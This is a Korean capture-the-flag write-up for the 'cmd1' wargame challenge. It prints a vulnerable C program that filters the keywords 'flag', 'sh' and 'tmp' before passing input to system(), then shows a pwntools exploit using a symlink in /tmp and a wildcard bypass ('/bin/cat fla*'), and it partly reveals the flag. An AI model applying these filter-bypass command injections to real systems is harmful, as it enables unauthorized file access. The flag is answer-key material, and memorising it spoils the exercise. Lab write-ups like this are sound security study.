 cmd1 Solution
==============

![](./images/1.png)

PATH 환경 변수를 사용하는 문제인 것 같다. 서버에 접속해 확인해보자.

![](./images/2.png)

이전 문제들처럼 cmd1과 cmd1.c을 이용해 flag를 읽어야 한다. cmd1.c 의 내용을 보자.

- cmd1.c

```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "flag")!=0;
	r += strstr(cmd, "sh")!=0;
	r += strstr(cmd, "tmp")!=0;
	return r;
}
int main(int argc, char* argv[], char** envp){
	putenv("PATH=/thankyouverymuch");
	if(filter(argv[1])) return 0;
	system( argv[1] );
	return 0;
}
```

간단한 코드다. PATH 환경 변수 값을 /thankyouverymuch 로 변경 후 argv[1] 값에 "flag", "sh", "tmp" 가 들어있지 않으면 argv[1] 을 명령어로서 실행해준다. PATH가 변경되었기 때문에 cat과 같은 명령어를 사용할 때 절대경로를 사용해야 한다. 나는 /tmp 에 새로운 디렉터리를 만들고 /home/cmd1/flag 의 심볼릭 링크를 필터에 걸리지 않는 이름을 갖도록 생성해 /bin/cat 으로 내용을 읽을 수 있었다. 

- exploit.py

```python
from pwn import *

argv = ['a', "/bin/cat a"]

p = process(executable='/home/cmd1/cmd1', argv=argv)

p.interactive()
```

"a"라는 이름으로 /home/cmd1/flag의 심볼릭 링크를 /tmp/(임의 디렉터리) 에 생성 후 위 exploit 코드를 실행했다.

![](./images/3.png)

"mommy now ..." 가 이번 문제의 flag이다. 

----------------------------------

문제를 풀고 나서 조금 찝찝한 기분이 들어 다른 사람들의 풀이를 찾아봤더니 *(와일드 카드)를 사용해 풀은 사람이 많았다. 

```bash
$ ./cmd1 "/bin/cat fla*"
```

위와 같이 명령어를 작성하면 필터에 걸리지 않고 flag를 읽을 수 있었다. 와일드 카드의 개념은 알고 있었으나 여기에 적용할 생각은 하지 못 하고 심볼릭 링크만 떠올랐다. 다시 한 번 새겨두면 좋을 것 같다.